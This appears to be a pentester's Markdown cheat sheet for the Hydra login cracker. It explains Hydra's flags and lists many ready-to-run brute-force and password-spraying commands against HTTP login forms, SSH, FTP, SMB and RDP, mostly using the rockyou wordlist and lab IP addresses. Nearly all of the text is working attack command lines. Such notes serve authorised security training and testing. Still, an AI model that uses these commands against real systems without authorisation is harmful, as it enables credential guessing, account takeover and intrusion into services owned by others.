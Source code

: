 # Hydra

## Resources
- <https://github.com/vanhauser-thc/thc-hydra>
- <https://www.thc.org/>
- <https://github.com/gnebbia/hydra_notes>


## Commands

`-s` PORT to specify a non-default port for the service in question.

`-V` or -vV, for verbose, makes Hydra show the username and password combinations that are being tried. This verbosity is very convenient to see the progress, especially if you are still not confident of your command-line syntax.

`-t` n where n is the number of parallel connections to the target. -t 16 will create 16 threads used to connect to the target.

`-d`, for debugging, to get more detailed information about what’s going on. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, -d will reveal this right away.

Use `-L/-P` for wordlist `-l/-p` for single username/password





# basic auth login
hydra -C WORDLIST -s PORT IP http-get URI 

# http post login
hydra -l user -P /usr/share/wordlists/rockyou.txt IP http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"







### HTTP

#### POST Login

```
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"


sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"

hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```




#### GET Login
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get://192.168.231.201
```














### ssh
```
hydra -L user -P pass ssh://IP -s 22


hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201

hydra -l eve -P wordlist 192.168.50.214 -t 4 ssh -V

hydra -l <username> -P <full path to pass> [IP] -t 4 ssh
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://${ip} -t 4

hydra -L [USERS FILE] -P [PASSWORDS FILE] [IP] ssh -u -I
hydra -L [USERS FILE] -P [PASSWORDS FILE] ssh://[IP]



hydra -l username -P wordlist.txt server service

hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV [IP] ssh

```














### ftp
```

hydra -l user -P passlist.txt ftp://[IP]

hydra -l mark -P /usr/share/wordlists/rockyou.txt [IP] ftp

hydra -L /usr/share/metasploit-framwork/data/wordlists/common_users.txt -P /usr/share/metasploit-framwork/data/wordlists/unix_passwords.txt [IP] ftp

hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV ftp://[IP]

```











### smb
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt [IP] smb


```












### RDP
```

hydra -l nadine -P /usr/share/wordlists/rockyou.txt -s 3389 rdp://192.168.213.227




# Spraying attack
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```
